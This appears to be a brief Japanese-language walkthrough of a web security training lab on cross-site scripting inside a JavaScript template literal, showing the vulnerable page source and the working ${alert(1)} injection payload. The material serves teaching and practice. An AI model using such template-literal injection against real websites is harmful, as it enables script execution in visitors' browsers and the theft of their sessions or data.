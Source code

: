 # テンプレート リテラルを使用した XSS の埋め込み

以下のハッキングラボを実施します

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped

- 1. ハッキングラボにアクセスします
- 2. 任意のワードで検索します
- 3. 検索結果ページのソースコードを確認

```html
<script>
  var message = `0 search results for 'abc'`;
  document.getElementById("searchMessage").innerText = message;
</script>
```

- 4. 次のテンプレートリテラルで検索するとスクリプトが実行されることが確認できます

```js
${alert(1)}
```

```html
<script>
  var message = `0 search results for '${alert(1)}'`;
  document.getElementById("searchMessage").innerText = message;
</script>
```
